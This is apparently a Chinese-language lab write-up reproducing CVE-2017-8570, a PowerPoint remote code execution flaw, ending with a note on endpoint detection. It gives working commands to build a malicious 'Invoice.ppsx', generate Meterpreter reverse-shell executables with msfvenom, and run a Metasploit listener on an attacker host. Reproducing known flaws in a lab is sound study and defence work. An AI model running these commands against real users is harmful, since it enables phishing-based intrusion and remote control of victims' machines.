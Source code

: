 # CVE-2017-8570

> [Office CVE-2017-8570 远程代码执行漏洞复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2017/08/officecve.html#复现环境)
>
> [手冢冢/Office8570：CVE20178570 --- tezukanice/Office8570: CVE20178570 (github.com)](https://github.com/tezukanice/Office8570)
>
> ---
>
> [Office CVE-2017-8570漏洞复现-CSDN博客](https://blog.csdn.net/weixin_44283446/article/details/122035825)
>
> ---
>
> [Office CVE-2017-8570 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/08/office-cve-2017-8570-复现/)
>
> [Office CVE-2017-8570远程代码执行漏洞复现-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1047572)
>
> [CVE-2017-8570复现及编写脚本实现自动化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3772?time__1311=n4%2BxnD0DBDgDuADcQxlhAe0%3DePiKG%3D8OYss14D&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> ---
>
> [CVE-2017-8570 自动化 - Y4er的博客](https://y4er.com/posts/cve-2017-8570/)

- 测试环境: Win7+Office2016

---

## 简介

2017年7月，微软在例行的阅读补丁中修复了多个Microsoft Office漏洞，其中的CVE-2017-8570漏洞为一个逻辑漏洞。网上公布了利用代码，影响范围广泛。

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是Microsof PowerPoint执行时会初始化“script”Moniker对象，而在PowerPoint播放动画期间会激活该对象，从而执行sct脚本(Windows script Component)文件。

可以欺骗用户运行含有该漏洞的PPT文件导致获取和当前登录用户相同的执行权限。

---

## 影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

---

## 复现

- 攻击机
  - IP: `100.1.1.131`
  - `python 2.7`

- 靶机
  - IP: `192.168.5.11`
  - win7
  - Office2016


```bash
git clone https://github.com/tezukanice/Office8570.git
```

调整目录结构, 将 `template.ppsx` 放到 template 目录下

![image-20240613151844277](http://cdn.ayusummer233.top/DailyNotes/202406131518648.png)

```bash
# 生成恶意 PPSX 文件
python2 cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://100.1.1.131/logo.doc
```

![image-20240613152038446](http://cdn.ayusummer233.top/DailyNotes/202406131520504.png)

准备反弹Shell的exe文件

```bash
# 用 msf 的话
msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.1.1.131 LPORT=6666 -f exe > shell.exe
## 若是 64 位操作系统的话
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.103 LPORT=6666 -f exe > shell.exe
```

将 `shell.exe` 放到项目目录下

![image-20240613152724555](http://cdn.ayusummer233.top/DailyNotes/202406131527625.png)

```bash
# 监听来自 ppsx 执行反弹 shell(ps:需要root权限)
python2 cve-2017-8570_toolkit.py -M exp -e http://100.1.1.131/shell.exe -l shell.exe
```

![image-20240613153318546](http://cdn.ayusummer233.top/DailyNotes/202406131533607.png)

```bash
# 用 msf 的话这里要设置 msf 监听
use exploit/multi/handler
set LHOST 100.1.1.131
set LPORT 6666
## for x86
set PAYLOAD windows/meterpreter/reverse_tcp
## for x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

将 Invoice.ppsx 放在靶机上用 PowerPoint 打开

![image-20240613153813982](http://cdn.ayusummer233.top/DailyNotes/202406131538069.png)

![image-20240613153916159](http://cdn.ayusummer233.top/DailyNotes/202406131539299.png)

![image-20240613154044274](http://cdn.ayusummer233.top/DailyNotes/202406131540452.png)

![image-20240613154205635](http://cdn.ayusummer233.top/DailyNotes/202406131542715.png)

---

智铠行为非精准检出, 检出了从 office 中调用 Powershell 的行为, 但是没有检出漏洞利用相关的信息

![image-20240613155253615](CVE-2017-8570.assets/image-20240613155253615.png)

![image-20240613155307218](CVE-2017-8570.assets/image-20240613155307218.png)

![image-20240613155313964](CVE-2017-8570.assets/image-20240613155313964.png)

---










































